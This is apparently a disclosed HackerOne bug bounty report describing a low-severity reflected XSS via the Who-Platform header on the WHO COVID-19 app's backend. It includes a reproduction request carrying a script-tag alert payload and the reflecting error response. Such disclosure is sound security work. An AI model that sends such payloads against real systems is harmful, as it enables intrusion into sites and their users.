 # Probably unexploitable XSS via Header Injection

## Report Details
- **Report ID**: 836689
- **URL**: https://hackerone.com/reports/836689
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-04-02T01:06:30.332Z
- **Disclosed**: 2020-12-21T22:42:32.256Z

## Reporter
- **Username**: d0nut
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: who-covid-19-mobile-app

## Vulnerability Information
## Summary:
The `Who-Platform` header is reflected in the output of the page if it's not one of the recognized `Who-Platform` values (IOS, ANDROID, WEB).
While this is probably no longer exploitable (as of ~2015), it may be exploitable on less well implemented browsers (not Chrome/Firefox/Edge). In general, though, this is bad form and should probably be corrected.

## Steps To Reproduce:
Send the following to `hackerone.whocoronavirus.org`

```
POST /WhoService/getCaseStats HTTP/1.1
Host: hackerone.whocoronavirus.org
Who-Client-ID: ██████
Who-Platform: test1<script>alert(1)</script>
Content-Length: 0

```

Observe the response containing an XSS payload.

```
HTTP/1.1 400 Bad Request
Content-Type: text/html;charset=utf-8
X-Cloud-Trace-Context: 587c4577619ec099323490092d00ca47;o=1
Date: Wed, 01 Apr 2020 04:14:02 GMT
Server: Google Frontend
Content-Length: 302

<html><head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<title>400 Unsupported Who-Platform header: test1<script>alert(1)</script></title>
</head>
<body text=#000000 bgcolor=#ffffff>
<h1>Error: Unsupported Who-Platform header: test1<script>alert(1)</script></h1>
</body></html>
```

Exploitation of this kind of XSS vector *_was_* possible using flash but somewhat recently a security upgrade prevented flash from being able to set arbitrary custom headers in cross origin POST requests.

## Supporting Material/References:
██████████

## Impact

Very very limited XSS.

This probably moreso falls in the "Media could be a stickler about this" but it also could affect real world participants on out-of-date browsers or out-of-date version of flash.

## Attachments
No attachments
